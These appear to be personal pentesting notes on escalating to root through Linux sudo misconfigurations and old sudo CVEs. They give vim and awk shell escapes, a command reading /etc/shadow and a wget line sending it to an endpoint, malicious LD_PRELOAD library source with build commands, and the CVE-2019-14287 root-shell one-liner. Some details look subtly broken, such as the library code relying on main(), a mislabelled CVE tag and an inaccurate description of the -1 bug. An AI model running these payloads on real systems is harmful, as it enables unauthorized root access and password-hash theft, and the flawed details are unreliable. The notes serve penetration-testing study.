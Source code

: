 ```yaml
---
aliases:
  - Linux sudo exploitation
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - sudo
author: Mehdi N Tehrani
creat_date: 2023-12-18
category: Cyber Security
subcategory: Linux Pentesting
---
```


# Shell Escaping
#shell_escaping
[GTFOBins](https://gtfobins.github.io/)

for example if vim can be run with sudo without a password; found through `sudo -l`, the following command can put us into a shell with root privileges
`sudo vim -c '!/bin/bash'
or with aws
`sudo awk 'BEGIN {system("/bin/bash")}'`

# Intended Functionality
#sudo_intended_functionality

for example if can run `apache2` with sudo without password, the following let's us view a system file:
`sudo apache2 -f /etc/shadow`

#wget #wget_post
or can use wget to exfiltrate files
`sudo wget --post-file=/etc/shadow <endpoint>`

# LD_PRELOAD
[GTFOBins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#ld_preload-and-nopasswd)
#ld_preload
```
$ sudo -l
Matching Defaults entries for <user> on this host:
    env_reset, env_keep+=LD_PRELOAD

User <user> run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
    ...
```

```c
#include <stdlib.h>
#include <sys/types.h>
#include <stdio.h>

int main(){
   unsetenv("LD_PRELOAD");
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```

```sh
$ gcc -fPIC -shared -o shell.so shell.c
$ LD_PRELOAD=/path/to/shell.so <execurable>
```

# CVE-2019-14287
#sudo #vulnerability #sudo_1_8_27 #cve_2019_14287
`sudo -u#-1 /bin/bash`

an issue with this sudo version where user with id (-1) which doesn't exists causes sudo to crash and return into root shell.


# CVE-2019-18634
#sudo #vulnerability #cve_2019_14287 #pwfeedback #buffer_overflow 
sudo < 1.8.26
**pwfeedback**: asterisks added when typing passwords

![[Pasted image 20231218154309.png]]

Example of a vulnerable sudo:
```
$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
